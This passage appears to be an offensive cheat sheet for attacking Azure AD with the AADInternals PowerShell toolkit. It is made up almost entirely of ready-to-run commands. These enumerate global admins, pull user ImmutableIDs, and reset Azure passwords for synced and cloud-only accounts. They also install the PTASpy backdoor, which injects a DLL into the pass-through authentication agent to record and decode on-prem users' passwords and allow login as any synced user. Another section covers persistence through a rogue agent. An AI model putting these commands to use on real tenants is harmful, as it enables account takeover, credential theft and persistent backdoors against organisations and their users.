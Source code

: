 #### Enumerate global admin
```
Get-AADIntGlobalAdmins
```

#### Get the ImmutableID
```
Get-AADIntUser -UserPrincipalName <NAME> | select ImmutableId
Get-AADIntUsers | Select UserPrincipalName,ImmutableId,ObjectId | Sort UserPrincipalName
```

#### Reset the Azure password
```
Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE ID>" -Password "<PASSWORD>" -Verbose
```

#### Reset password for cloud only user
- Need CloudAnchor ID which is the format ```<USER>_<OBJECTID>```
- Might be fixed already!
```
Import-Module .\AADInternals.psd1
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
Set-AADIntUserPassword -CloudAnchor "<ID>" -Password "<PASSWORD>" -Verbose
```

- Access Azure portal using the new password.

## Pass Through Authentication PTA Abuse
- Once we have admin access to an Azure AD connect server running PTA agent.
- Not reliable method to check if PTA is used, Check if module is available ```Get-Command -Module PassthroughAuthPSModule```
- Once the backdoor is installed, we can authenticate as any user synced from on-prem without knowing the correct password!

#### Install a backdoor (needs to be run as administrator)
- Creates a hidden folder `C:\PTASpy` and Copies a `PTASpy.dll` to `C:\PTASpy` and Injects `PTASpy.dll` to AzureADConnectAuthenticationAgentService process
```
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```

### See passwords of on-prem users authenticating
- Stored in `C:\PTASpy`
```
Import-Module .\AADInternals.psd1
Get-AADIntPTASpyLog
Get-AADIntPTASpyLog -DecodePasswords
```

#### Register a new PTA agent for persistence
- After getting Global Administrator privileges by setting it on a attacker controled machine.
```
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```
